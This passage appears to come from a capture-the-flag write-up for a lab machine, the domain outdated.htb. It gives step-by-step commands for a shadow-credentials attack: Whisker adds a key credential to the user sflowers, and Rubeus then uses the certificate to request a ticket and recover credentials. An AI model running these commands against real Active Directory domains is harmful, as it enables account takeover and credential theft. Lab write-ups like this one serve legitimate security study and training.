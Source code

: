 - Download Whisker:
<https://github.com/eladshamir/Whisker>

<https://github.com/jakobfriedl/precompiled-binaries>

- Upload Whisker.exe to target:

```bash
.\Whisker.exe add /target:sflowers /domain:outdated.htb

```

![image42](../resources/f0f72b011b504333b5d34e6c21c6862f.png)

- Upload Rubeus:
- Run the command that was produced by Whisker:

```bash
.\Rubeus.exe asktgt /user:sflowers /certificate: <certificate base64> /password:"lxcgCS6Re5JsGCmq" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```
